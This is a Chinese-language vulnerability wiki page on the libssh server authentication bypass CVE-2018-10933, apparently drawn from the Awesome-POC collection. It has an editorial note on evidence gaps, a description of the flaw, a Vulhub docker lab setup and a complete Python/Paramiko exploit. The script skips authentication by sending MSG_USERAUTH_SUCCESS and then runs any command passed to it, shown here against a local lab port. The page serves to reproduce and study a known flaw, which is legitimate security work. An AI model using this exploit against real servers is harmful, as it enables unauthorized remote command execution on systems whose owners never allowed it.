


# Libssh 服务端权限认证绕过漏洞 CVE-2018-10933

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：使用受影响libssh服务端状态机的应用，应用支持session/exec才有命令结果；实验2222端口
- 证据范围：完整Paramiko脚本发USERAUTH_SUCCESS，角色清楚；与93几乎同源同代码应整合

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺影响/修复分支范围
- 任意SSHException都打印Not Vulnerable，不能据此确定安全
- 连接无超时、参数未检查、输出解码可失败，依赖Paramiko内部API需固定版本

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送`MSG_USERAUTH_SUCCESS`消息，绕过认证过程，未授权访问目标SSH服务器。

参考资料：

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## 环境搭建

Vulhub执行如下命令启动存在漏洞的环境：

```shell
docker-compose up -d
```

环境启动后，我们可以连接`your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：

```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@127.0.0.1
```



## 漏洞复现

参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

```python
python CVE-2018-10933.py 127.0.0.1 2222 "ps aux"
```




---

> 来源：Threekiii/Awesome-POC
